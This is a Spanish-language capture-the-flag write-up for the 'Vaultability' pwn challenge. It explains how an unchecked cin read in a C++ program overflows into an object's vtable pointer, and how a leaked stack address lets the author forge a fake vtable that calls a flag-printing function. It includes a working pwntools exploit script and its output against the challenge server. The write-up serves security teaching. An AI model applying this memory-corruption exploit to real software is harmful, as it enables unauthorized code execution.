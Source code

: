 # Vaultability

Datos:

- Nos dan el codigo fuente escrito en C++, donde hay dos objetos: Vault y BackupVault, BackupVault hereda los metodos virtuales `showSecurityLog` y `triggerAllarm` de Vault:

```
class Vault {
    char pin[16];

  public:
    virtual void enterPin() {
        cout << "Enter Vault PIN: ";
        cin >> pin;
    }
    virtual void showSecurityLog() { cout << &pin << endl; }
    virtual void triggerAlarm() { cout << "Security Breach Detected!" << endl; }
};

class BackupVault : public Vault {
    char pin[16];

  public:
    void enterPin() {
        cout << "Enter Backup Vault PIN: ";
        cin >> pin;
    }
};
```

- Entre las opciones que tenemos en el programa, podemos en ambos vaults escribir un codigo PIN de hasta 16 bytes, ver la direccion en el stack de estos valores y mostrar un mensaje de alerta:

``` c++
int menu(Vault *vault, Vault *backup) {
    cout << "1. Enter Vault PIN" << endl;
    cout << "2. View Security Log" << endl;
    cout << "3. Trigger Alarm" << endl;
    cout << "4. Enter Backup Vault PIN" << endl;
    cout << "5. View Backup Vault Log" << endl;
    cout << "6. Trigger Backup Vault Alarm" << endl;
    cout << "7. Exit" << endl;
    cout << "Enter your choice: ";

    int choice;
    cin >> choice;

    switch (choice) {
    case 1:
        vault->enterPin();
        break;
    case 2:
        vault->showSecurityLog();
        break;
```

- Existe una funcion `void secretAccess() { system("cat flag.txt"); }` , a la que debemos llegar

- La entrada de usuario se produce por el metodo `cin`, que no valida la entrada, permitiendonos escribir mas de lo esperado

- Viendo las propiedades del ejecutable, este no tiene PIE, asi que las direcciones de memoria del binario son fijas:
```
checksec --file=main
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   66 Symbols        No    0               0               main
```

## VTables 
Una VTable (tabla virtual o tabla de métodos virtuales) es un mecanismo utilizado en programación orientada a objetos, especialmente en lenguajes como C++, para implementar el polimorfismo dinámico (también llamado polimorfismo por herencia).

Es una tabla que contiene punteros a las funciones virtuales de una clase, las vtables lucen como direcciones contiguas de memoria que apuntan a los metodos virtuales:
```
 ;-- vtable.BackupVault.0:
            ; DATA XREF from BackupVault::BackupVault() @ 0x401650(r)
            0x00403d88      .qword 0x00000000004015d0 ; sym.BackupVault::enterPin__ ; method.BackupVault.enterPin__ ; method.BackupVault.virtual_0
            0x00403d90      .qword 0x0000000000401552 ; sym.Vault::showSecurityLog__ ; method.Vault.showSecurityLog__ ; method.BackupVault.virtual_8 ; method.Vault.virtual_8
            0x00403d98      .qword 0x0000000000401592 ; sym.Vault::triggerAlarm__ ; method.Vault.triggerAlarm__ ; method.BackupVault.virtual_16 ; method.Vault.virtual_16
            ;-- vtable for Vault:
            0x00403da0      .qword 0x0000000000000000                  ; vtable for Vault
[0x00403d88]> pd 5
            ;-- vtable.BackupVault.0:
            ; DATA XREF from BackupVault::BackupVault() @ 0x401650(r)
            0x00403d88      .qword 0x00000000004015d0 ; sym.BackupVault::enterPin__ ; method.BackupVault.enterPin__ ; method.BackupVault.virtual_0
            0x00403d90      .qword 0x0000000000401552 ; sym.Vault::showSecurityLog__ ; method.Vault.showSecurityLog__ ; method.BackupVault.virtual_8 ; method.Vault.virtual_8
            0x00403d98      .qword 0x0000000000401592 ; sym.Vault::triggerAlarm__ ; method.Vault.triggerAlarm__ ; method.BackupVault.virtual_16 ; method.Vault.virtual_16
```

## Corrupcion de la VTable de BackupVault
Nuestra entrada de PIN para Vault podria sobreescribir la referencia a la vtable de BackupVault, tal y como vemos en la pila:
```
0x7ffe3de66e78 0x00000000004014e7 main+71
0x7ffe3de66e80 0x0000000000403db0 vtable.Vault.0
0x7ffe3de66e88 0x0000414141414141                    <-- Entrada de usuario, "AAAAAA"
0x7ffe3de66e90 0x00000000000011ff elf_strtab+3207
0x7ffe3de66e98 0xffffffffffffffa0
0x7ffe3de66ea0 0x0000000000403d88 vtable.BackupVault.0 <-- 24 bytes despues
```

La idea es rellenar estos 24 bytes con una falsa vtable y luego sobreescribir la referencia a la direccion de la pila donde comienza nuestra falsa vtable (el punto donde comenzamos a escribir)

Gracias a que el metodo `View Security Log` de Vault nos permite saber la direccion en el stack donde se almacena nuestra entrada, podemos proceder

- Primero buscamos la direccion de `secretAccess` (que es fija porque el binario no tiene PIE), podemos hacer esto con multiples herramientas pero una que trae Linux por defecto para sacar simbolos es `nm`:
```
nm main| grep secret
00000000004011f6 T _Z12secretAccessv
```

- Luego obtenemos la direccion donde escribimos el PIN, haciendo una peticion a `View Security Log`

- Creamos nuestra carga util, con dos direcciones de relleno y una tercera apuntando a nuestra funcion secretAccess, luego la direccion que obtuvimos de `View Security Log` para reemplazar la referencia:

`carga_util =  + 16 bytes de cualquier cosa + 0x00000000004011f6 + direccion_de_Vault_PIN_en_el_Stack`

- Por ultimo llamamos a BackupVault_triggerAllarm, que intentara acceder a direccion_de_Vault_PIN_en_el_Stack + 16 bytes, direccion que contiene 0x00000000004011f6, por lo que se ejecutará la funcion maliciosa

## Exploit
```python
from pwn import *
elf = context.binary = ELF("./main")
#io = process('./main')
io = remote("challs.breachers.in",1339)

io.sendlineafter(b"choice: ", b"2")
fake_vtable_addr = p64(int(io.recvline().strip(),16))

fake_vtable = p64(0x41414141) + p64(0x42424242) + p64(0x004011f6)
payload = fake_vtable + fake_vtable_addr

io.sendlineafter(b"choice: ", b"1")
io.sendlineafter(b"PIN: ", payload)
# Al llamar a BackupVault_triggerAllarm esta buscara
io.sendlineafter(b"choice: ", b"6")
print(io.recv())
```

```
python3 win.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/kalcast/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.1).
    Update with: $ pip install -U pwntools
[*] '/home/kalcast/Descargas/CTF/Vaultability/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to challs.breachers.in on port 1339: Done
b'Breach{v74b13_c4113d_f4k3_func}\n'
[*] Closed connection to challs.breachers.in port 1339
```

`Breach{v74b13_c4113d_f4k3_func}`
